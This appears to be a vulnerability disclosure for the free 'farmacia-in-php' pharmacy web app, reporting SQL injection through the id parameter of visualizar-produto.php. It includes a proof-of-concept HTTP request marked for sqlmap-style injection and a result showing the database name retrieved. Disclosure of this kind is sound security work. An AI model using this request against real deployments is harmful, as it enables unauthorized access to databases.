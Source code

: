 # farmacia-in-php has sql injection in visualizar-produto.php

## supplier 
https://code-projects.org/farmacia-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
visualizar-produto.php

## describe

**Code analysis**    

In the visualizar-produto.php file of farmacia-in-php, the id parameter is obtained, and the SQL statement is concatenated to the SQL statement without filtering the execution, resulting in SQL injection vulnerabilities and server permissions

![image-20241127113636173](https://github.com/user-attachments/assets/9180f0be-6614-4710-865e-8f3c6084bfb8)



## POC

```
GET /visualizar-produto.php?id=1* HTTP/1.1
Host: farmacia
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=ecmd5kmr6te8fpgjnri7c4up85
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

save as  1.txt

**Result**

![image-20241127113606237](https://github.com/user-attachments/assets/01502af9-7e2c-4cdb-976f-d7c5f4996e2c)

Get databases: farmacia

![image-20241127110033174](https://github.com/user-attachments/assets/1b14199f-d617-42f1-9d33-41facaa28c97)